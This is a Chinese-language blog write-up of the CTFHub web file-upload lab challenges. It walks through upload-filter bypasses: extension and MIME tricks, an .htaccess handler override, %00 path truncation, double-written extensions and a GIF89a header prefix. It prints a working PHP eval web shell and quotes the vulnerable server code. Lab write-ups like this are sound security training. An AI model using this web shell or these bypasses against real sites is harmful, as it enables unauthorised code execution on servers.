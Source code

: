 ```yaml
---
layout: post
title: CTFHub Web 文件上传
subtitle: CTFHub Web 文件上传
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 文件上传

### 1.1. 无验证

构造一句话木马 `shell.php`

```php
<?php echo 123;@eval($_POST['code']);?>
```

上传成功

![image](https://img.ghostliner.top/geMboM.png)

![image](https://img.ghostliner.top/Q3YLJs.png)

蚁剑获取到 flag 文件

![image](https://img.ghostliner.top/8EERyC.png)

### 1.2. 前端验证

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/bwzZR3.png)

### 1.3. .htaccess

创建 `.htaccess` 文件上传

```php
<FilesMatch "wshell">
Sethandler application/x-httpd-php
</FilesMatch>
```

上传 `shell.gif` 木马

代码成功执行

![image](https://img.ghostliner.top/cGx3KP.png)

![image](https://img.ghostliner.top/wcRdc9.png)

### 1.4. MIME 绕过

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/sq30WW.png)

### 1.5. 00 截断

检查发现代码，文件路径由 get 提交的 `road` 和随机数、时间、后缀组成

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

`%00` 截断 road 参数，上传成功

![image](https://img.ghostliner.top/yLCSDP.png)

![image](https://img.ghostliner.top/FHiJk6.png)

![image](https://img.ghostliner.top/3E9ATO.png)

### 1.6. 双写后缀

代码发现字符替换函数，双写绕过

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
```

上传 `shell.pphphp` 成功，蚁剑

![image](https://img.ghostliner.top/99LdSm.png)

### 1.7. 文件头检查

上传 `shell.php.gif` bp 抓包修改后缀，

```php
GIF89a
<?php echo 123;@eval($_POST['code']);?>
```

上传成功，蚁剑连接

![image](https://img.ghostliner.top/ay93X5.png)
